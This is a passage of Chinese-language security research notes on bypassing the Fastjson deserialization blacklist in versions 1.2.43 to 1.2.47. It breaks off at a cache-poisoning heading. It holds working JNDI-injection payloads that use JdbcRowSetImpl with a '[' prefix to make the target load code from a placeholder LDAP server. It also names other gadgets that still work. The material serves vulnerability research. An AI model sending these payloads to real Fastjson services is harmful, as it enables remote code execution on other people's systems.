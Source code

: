 2. 其他Gadget
    
    无变化，`c30p`,`MyBatis` 依旧能用，缓存绕过也是OK的
    

## 1.2.43

### 原理

在1.2.42的基础上扳了`LL+;;`

### 绕过

1. [绕过
    
    原理：`1.2.43` 版本的 `checkAutoType` 函数在处理传入的类名时，对以 `[` 开头的字符串有特殊的逻辑。`[` 在Java中通常用于表示数组类型（例如 `[Ljava.lang.String;` 代表 `String[]`）。研究发现，当类名以 `[` 开头时，Fastjson会进入一个用于处理数组类型的代码分支，在这个分支中，它会提取 `[` 之后的核心类名，但**恰恰遗漏了对这个核心类名进行黑名单检测**的步骤，就直接去加载这个类了。这就导致了黑名单机制被完全绕过
    
    payload：
    
    ```java
    {
        "@type":"[com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://your-ldap-server:1389/Exploit", 
        "autoCommit":true
    }
    ```
    
    满足特定版本解析器状态的“脏字符”
    
    ```java
    {
    		"@type":"[com.sun.rowset.JdbcRowSetImpl"[{,
    		"dataSourceName":"ldap://your-ldap-server:1389/badNameClass", 
    		"autoCommit":true
    }
    ```
    
2. 其他Gadget
    
    无变化，`c30p`,`MyBatis` 依旧能用，缓存绕过也是OK的
    

## 1.2.44-1.2.47

### 原理

在上面的基础上扳了[

### 绕过

1. 缓存投毒（Fastjson1.2.25-1.2.47通杀）
    
    原理：
    